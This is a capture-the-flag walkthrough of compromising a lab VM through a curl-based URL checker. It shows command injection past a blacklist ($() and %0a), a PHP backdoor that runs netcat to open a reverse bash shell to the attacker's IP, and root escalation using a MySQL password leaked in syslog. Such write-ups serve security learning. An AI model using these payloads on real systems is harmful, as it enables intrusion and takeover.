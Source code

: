 This CTF can be found here: https://maze.pentest-challenge.co.uk/


Booting up the VM gives you the IP of the target: 

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_securictf_29_04_2017_09_02_56.png)

An NMAP scan of all ports `nmap -p- 192.168.1.143` returns port 80 open, running and HTTP service.

Visiting this in a browser I am presented a page with some kind of "URL connectivity checker" which just returns the resource or the URL that is entered.

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_Kali-Linux-2016.1-vbox-amd64_29_04_2017_09_05_20.png)

Looking at the output it is pretty clear the backend is using cUrl to return the requested URL. A couple things pop into my mind, maybe LFI or better yet RCE. 

Before poking at this I went ahead and started bruteforcing directories in the background:

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_Kali-Linux-2016.1-vbox-amd64_29_04_2017_09_16_00.png)

Looking back at index.php I tried a few things the first being LFI.

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_Kali-Linux-2016.1-vbox-amd64_29_04_2017_09_06_59.png)

Ok, cool so I can view files on the system maybe there is something interesting we can find, but before spending time looking for interesting files let me see if I can just acheive RCE and get a reverse shell.

I tried some different input that would allow me to append a command to the cUrl command that retreives the resource and it seemed there was some kind of black listing. This prevented me from using something straight forward like, `&` or `|`.

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_Kali-Linux-2016.1-vbox-amd64_29_04_2017_09_08_09.png)

Since blacklisting is never a good way to go when preventing input there has to be a way to get a command to execute. Sure enough I found a few different ways to do this. 

I can use something like `$(whoami)` which will evaluate the command in the parenthesis before executing the curl command and return the output in the error.

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_Kali-Linux-2016.1-vbox-amd64_29_04_2017_09_17_49.png)

Intercepting the POST request in Burpsuite I was able to insert a URL encoded newline charater `%0a` followed by any command which will execute the command.

I ended up figuring out that I can also just redirect the output of the cUrl command to a file. Looking back at the directory brute force I had started, there is a directory called `/uploads` which is likley writable by www-data.

I created a file on my attacker machine that contained some PHP to execute netcat on the target and connect back to my machine giving me a bash shell `<?php system('nc -c "/bin/bash" 192.168.1.139 444);?>`. Then started up a python simple http sever and requested this file using the interface of the target web app and redirected the output to a file in the uploads directory like so: `http://192.168.1.139:555/backdoor > ./uploads/backdoor.php`. The `>` is redirecting this output of the cUrl command which will be the PHP of the file I created on my attacker machine and putting it into a file called backdoor.php.

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_Kali-Linux-2016.1-vbox-amd64_30_04_2017_09_45_20.png)

Check if the file successfully ended up in `/uploads`

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_Kali-Linux-2016.1-vbox-amd64_30_04_2017_09_48_46.png)

Yup, ok now I have my reverse shell on the target machine I can startup netcat on my attacker machine and get a connection.

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_Kali-Linux-2016.1-vbox-amd64_30_04_2017_09_53_28.png)

Spawn a proper shell.

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_Kali-Linux-2016.1-vbox-amd64_30_04_2017_09_54_25.png)

Now that I have a shell on the target machine the first thing is to look around the environment. I started out looking for any interesting binaries or scripts that may have been created by a user that may perform interesting functions or have permissions set incorrectly. Listing the contents of the home directory for "ctfuser" revealed just that.

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_Kali-Linux-2016.1-vbox-amd64_30_04_2017_11_33_39.png)

Look like mydbconnchecker is a binary that we have permission to execute. After running it the output shows that it is loging some information about the mysql database into syslog.

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_Kali-Linux-2016.1-vbox-amd64_30_04_2017_11_35_02.png)

Reading syslog to see what is being logged shows that the username of `root` and with a password of `rorscahc` is being used to log into the `mysql` database on localhost `127.0.0.1`.

Taking a look at the proccesses running shows MySQL is running as root..not a good idea.

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_Kali-Linux-2016.1-vbox-amd64_30_04_2017_11_42_33.png)

A quick google search showed me I can run shell commands from MySQL https://www.electrictoolbox.com/shell-commands-mysql-command-line-client/ . So now I have MySQL running as root, credentials to log into MySQL and a way to execute a shell command from MySQL. Lets try it out.

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_Kali-Linux-2016.1-vbox-amd64_30_04_2017_11_44_26.png)

And there we go.. I can now read generate a flag from the `/root` directory.



